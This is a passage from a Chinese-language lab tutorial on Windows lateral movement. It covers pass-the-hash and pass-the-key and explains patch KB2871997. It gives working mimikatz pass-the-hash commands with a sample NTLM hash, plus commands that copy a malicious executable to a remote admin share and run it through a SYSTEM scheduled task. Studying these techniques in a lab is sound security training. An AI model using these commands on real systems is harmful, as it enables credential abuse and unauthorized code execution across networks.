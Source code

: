 ```
mimikatz.exe "privilege::debug" "sekurlsa::pth /user:administrator /domain:hack.com /ntlm:570a9a65db8fba761c1008a51d4c95ab"

mimikatz.exe "privilege::debug" "sekurlsa::pth /user:administrator /domain:192.168.70.13 /ntlm:570a9a65db8fba761c1008a51d4c95ab"
```

![image-20230308103912088](https://img.gyxnb.top/img/image-20230308103912088.png)

传递完成后会*弹出一个框*可以进行链接了,

远程链接上去，在框里上传恶意文件，写计划任务或服务等

```
copy c:\users\mb\desktop\1.exe \\192.168.70.13\c$ #上传恶意文件
schtasks /create /s 192.168.70.13 /tn test1 /sc onstart /tr c:\1.exe /ru system /f #写计划任务
schtasks /run /s 192.168.70.13 /i /tn test1 #启动服务
schtasks /delete /s 192.168.70.13 /i /tn test1 #删除计划任务
```

# pass the key密钥传递攻击(PTK)横向攻击

## PTK介绍

WinXP/2003/Vista/2008，以及未打KB2871997补丁之前的Win7/2008r2/8/2012,这些环境我们都可以
使用NTLM哈希传递

对于8.1/2012r2，安装*补丁kb2871997*的Win 7/2008r2/8/2012,可以使用*AES keys*代替NTLM来进行验证

## 什么是KB2871997

KB2871997:*禁止本地管理员账户用于远程连接*，这样就无法以本地管理员用户的权限执行wmi、psexec、
schtasks、at和访问文件共享。

这个补丁发布后常规的Pass The Hash已经无法成功，唯独默认的*Administrator (SID 500)账号例外*，利用这
个账号仍可以进行Pass The Hash远程连接，即使administrator修改了名字

但是还可以通过AES密钥来替代NTLM验证进行横向的操作，其实这个补丁挺鸡肋的，不过用*AES密钥*照样也可以用NTLM,只是需要Administrator (SIDV 500)421都拿到机器了，Administrator还不容易吗?

这个补丁唯一的好处就是减少存储在内存中的凭据数据，也就是让wdigest协议认证的凭据不会存储在lsass.exe, 这样子当你dump Isass.exe的时候你就会发现，wdigest协议中的凭据你就看不到了!

## 实验复现

### 实验条件

| 机器名           | 系统                  | 登录用户                | IP            |
| ---------------- | --------------------- | ----------------------- | ------------- |
| 域内主机(2012-2) | windows server 2012R2 | 本地管理员mb            | 192.168.70.14 |
| 域内主机(2012-1) | windows server 2012R2 | 本地管理员administrator | 192.168.70.13 |
| 域控(DC)         | windows server 2012R2 | 域管administrator       | 192.168.70.16 |
